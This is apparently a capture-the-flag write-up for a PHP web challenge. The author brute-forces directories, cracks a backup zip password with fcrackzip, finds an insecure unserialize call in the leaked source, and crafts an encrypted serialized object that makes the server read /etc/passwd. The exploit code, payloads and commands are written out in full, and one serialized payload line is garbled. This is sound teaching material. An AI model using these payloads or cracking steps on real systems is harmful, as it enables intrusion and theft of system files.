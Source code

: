 The challenge description:

    "title": "Translator"
    "level": 2
    "description": "The only way to patch a vulnerability is by exposing it first so, Will you can Translator ?."
    "points": 600
    
  I went to [the website](http://35.222.121.58/Translator/), made directory brute force scan, Checked the source code.. nothing seems to be important..
  
  I checked the request and response, but still nothing important
  
  I returned to see what the directory brute force found and it got two files that shined with some hope to find something important
  
  ![image 1](https://imgur.com/uDx6SiR.png)

  
  Both directories gave 403 unauthorized response
  
  At least maybe another brute force on them could reveal something.. and yes it did
  
  We found a zip file inside backup directory
  
  ![image 2](https://imgur.com/XBev9nz.png)

  
  Downloaded the file and tried to unzip it but it requires password, peace of cake
  
  Running a small program to brute force the password was enough
  
  ```fcrackzip -v -u -D -p backup.zip rockyou.txt```
  
  ![image 3](https://imgur.com/PtpMSmw.png)
  
  The password: ```kaylaanne```

  
  Unzipped the file and it contained the source code of the index.php page

```
<?php

function encryptString($plaintext, $password) {
//This is s3cr3t
}


function decryptString($ciphertext, $password) {
    $ciphertext = base64_decode($ciphertext);
    if (!hash_equals(hash_hmac('sha256', substr($ciphertext, 48).substr($ciphertext, 0, 16), hash('sha256', $password, true), true), substr($ciphertext, 16, 32))) return null;
    return openssl_decrypt(substr($ciphertext, 48), "AES-256-CBC", hash('sha256', $password, true), OPENSSL_RAW_DATA, substr($ciphertext, 0, 16));
}

//$EncString = encryptString("aaaaaaaaaaaaaaaaaaaaa", "vmUeu7D9bzE5JmNE"); output:SElIT1dBUkVZT1VCUk8hIdk8ZHn/lvhO9Vammhqvg8N6OlV2KOX3uRiQ7gsn8ZXuvE4UUPOK9Q4ZhufvCiyXhAIdJxY+22Rt5AgkVy0CDcI=

class ReadListLogs
{
        private $FileName = "/var/log/httpd/access_log";
        private $RowNumber = 1;

    public function __construct()
    {
      echo "__construct";
      $this->ReadSave($this->FileName, $this->RowNumber);
    }

    public function __wakeup()
    {
      $this->ReadSave($this->FileName, $this->RowNumber);
    }

    function ReadSave($FileName,$RowNumber)
        {
        $this->FileName = $FileName;
        $this->RowNumber = $RowNumber;
        $array = explode("\n", file_get_contents($FileName));
        $reversed = array_reverse($array);
        $File_Contnet = $reversed[$RowNumber];
              $stringxx = bin2hex(random_bytes(18));
        file_put_contents(__DIR__.'/logs/'.$stringxx.".txt", $File_Contnet);
            echo "End $stringxx";
        }
}



$data = json_decode(file_get_contents('php://input'));
$DecryptVal =  strval(decryptString($data->user,"vmUeu7D9bzE5JmNE"));
unserialize($DecryptVal);

?>
```
  Taking a look at what the code do
  1. Unreaveled encryption function that takes plain text and key
  2. Revealed decrypting function that takes cipher text and key
  3. A sample of the encrypting
  
  After them there's a class which contains:
  
  1. Two variables $FileName and $RowNumber
  2. __construct and __wakeup php magic methods, these are method that run without calling them when some action happens you can read about them ![here}(https://www.php.net/manual/en/language.oop5.magic.php)
  3. A function to read files and store the output in file with random name in logs directory
  4. Echoes the file name

  And the last portion of the code does the following:

  1. Gets the data from the request
  2. Decode the json formatted data
  3. Store the data to variable named $data
  4. Decrypting the parameter user in variable data with the decrypting function
  5. Storing the decrypted cipher to a variable named $DecryptVal
  6. Unserializing $DecryptVal

  It's clear since the code has magic methods and unserializing user data that it'll be php insecure deserialization ( aka php object injection )

  Ok let's take it step by step

  ### 1. serializing
  
  Since the data is unserialized we need to supply serialize 
  
  I made a small php script to serialize the data and make object of the same class with the same variables but changing thier values
```
<?php
class ReadListLogs
{
        public function __construct()
        {
                $this->filename="/etc/passwd";
                $this->RowNumber = 1;
        }
}
$obj = new ReadListLogs();
echo serialize($obj);
echo "\n";
?>
```
  ![image 4](https://imgur.com/TiOTXI1.png)
  
  ```O:12:"O:12:"ReadListLogs":2:{s:8:"FileName";s:11:"/etc/passwd";s:9:"RowNumber";i:1;}```
  
  And we got the serialized payload..


  ### 2. encrypting
  
  Here was a great problem for me, I thought at first it depended on cryptography, but it seemed at last it's OSINT
  
  I searched for a long time for the algorithm until I finally found it [here](https://stackoverflow.com/questions/3422759/php-aes-encrypt-decrypt/56856924#answer-62175221)
  
  Ok now I have the encryption algorithm

```
function encryptString($plaintext, $password) {
    $iv = openssl_random_pseudo_bytes(16);
    $ciphertext = openssl_encrypt($plaintext, "AES-256-CBC", hash('sha256', $password, true), OPENSSL_RAW_DATA, $iv);
    $hmac = hash_hmac('sha256', $ciphertext . $iv, hash('sha256', $password, true), true);
    return base64_encode($iv.$hmac.$ciphertext);
}
```

  I modified it a bit so I can use it in a local web server
```
<?php

$password="vmUeu7D9bzE5JmNE";
$data=json_decode(file_get_contents('php://input'));
$plaintext=$data->user;

function encryptString($plaintext, $password) {
    $iv = openssl_random_pseudo_bytes(16);
    $ciphertext = openssl_encrypt($plaintext, "AES-256-CBC", hash('sha256', $password, true), OPENSSL_RAW_DATA, $iv);
    $hmac = hash_hmac('sha256', $ciphertext . $iv, hash('sha256', $password, true), true);
    return base64_encode($iv.$hmac.$ciphertext);
}

echo encryptString($plaintext,$password);

?>
```
  ![image 5](https://imgur.com/f2fU0IL.png)

  Also try to decrypt it locally with some reflective data added

  ![image 6](https://imgur.com/tr3ZaEg.png)

  Encrypting done



  ### 3. injecting

  The encrypted serialized payload:

  ```NB8zli9U94QIB9lOosT0vaPVSakMB8vc7QTXEmJ4e9x9g4ah84ImLkFSdW1zHba5EEQvLzTNYXHkQocwb7ejsTTnEOU5maOkPW2fnMz6o2LPQZrnxe3rhh5A8Wh2g6pwqC6Nq7ZODfPPdMmfaTVMVh+iklUFeteJL9VOW27yLik=```

  Injecting it into the challenge
  
  ![image 7](https://imgur.com/6y5ikh0.png)

  We got our lucky number for the file: 31771b107da808662fa1

  ![image 8](https://imgur.com/lhpz84I.png)

  Going to [the file](http://35.222.121.58/Translator/logs/31771b107da808662fa1.txt)

  ![https://imgur.com/beS5w18.png](https://imgur.com/beS5w18.png)

  And we got the flag: ```#ASCWG{php_1$_R3a11y_C0Ol_1$_not_1t_?x?:P_1xcxz}```


  Big credits to my teammate Abanob Medhat who participated with me in solving this challenge
